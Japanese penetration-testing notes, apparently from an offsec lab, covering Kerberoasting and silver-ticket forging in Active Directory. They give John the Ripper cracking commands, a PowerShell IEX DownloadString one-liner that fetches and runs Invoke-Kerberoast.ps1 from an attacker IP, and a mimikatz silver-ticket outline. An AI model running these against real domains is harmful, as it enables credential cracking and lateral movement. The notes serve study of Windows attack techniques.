 #### John the ripperを利用したクラック

```bash
kirbi2john 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi -o crack_file
```

```bash
john --format=krb5tgs crack_file --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Invoke-Kerberoust.ps1を利用したクラック

ドメイン内のすべてのサービスプリンシパル名を自動的に列挙し、それらのサービスチケットを要求し、John the RipperとHashcatの両方でクラックできる形式でそれらをエクスポートする

https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/

```bash
cp ~/Documents/tools/Empire/data/module_source/credentials/Invoke-Kerberoast.ps1 ./
```

![](img/ActiveDirectory_auth/image-20230220232006616.png)

```cmd
powershell.exe IEX (New-object System.Net.Webclient).Downloadstring('http://192.168.45.187/Invoke-Kerberoast.ps1')
```

Hashの値すべてをコピーしサクラエディタで置換（タブと\r\n）してファイルを作成してJohn the ripperでパスワードクラックする

```bash
john --format=krb5tgs crack_file --wordlist=/usr/share/wordlists/rockyou.txt
```



### シルバーチケット

- SPNパスワードハッシュ
- ドメインSID
- ターゲットSPN

が入手できた場合mimikatzでシルバーチケットを偽造し横展開に利用することができる



ドメインのSIDを取得する

```cmd
whoami /user

User Name               SID                                          
======================= =============================================
xor-app59\administrator S-1-5-21-3051798232-4248191986-2095020414-500
```
